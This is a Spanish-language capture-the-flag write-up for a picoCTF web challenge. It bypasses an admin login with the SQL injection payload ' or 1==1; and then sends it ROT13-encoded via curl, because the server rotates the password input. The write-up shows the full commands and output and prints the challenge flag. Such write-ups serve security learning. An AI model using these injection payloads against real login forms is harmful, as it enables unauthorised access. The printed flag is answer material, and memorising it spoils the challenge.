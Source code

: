 ## Descripción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Hints
+ Seems like the password is encrypted.


## Solución

intentando hacer inyeccion SQL :  
``` sql  
'  or 1==1; 
```

``` bash
┌─[ramdark@parrot]─[~]
└──╼ $curl -s https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password=' or 1==1;&debug=1"
<pre>password: ' or 1==1;
SQL query: SELECT * FROM admin where password = '' be 1==1;'
</pre>┌─[ramdark@parrot]─[~]
└──╼ $

```

password encriptado en  rot13 

``` bash 
┌─[ramdark@parrot]─[~]
└──╼ $curl -s https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password=' be 1==1;&debug=1"
<pre>password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>┌─[ramdark@parrot]─[~]
└──╼ $


```


## Flag

``` picoCTF{3v3n_m0r3_SQL_7f5767f6} ```


## Notas adicionales

Utilizando la inyeccion 
```sql  
'  or 1==1; 
```
nos damos cuenta que esta encriptado en el algoritmo ROT13
se aplica el algotimo al resultado y se intenta con el nuevo password.

## Referencias
+ [SQL injection](https://portswigger.net/web-security/sql-injection)
+ [Cyberchef](https://gchq.github.io/CyberChef/)
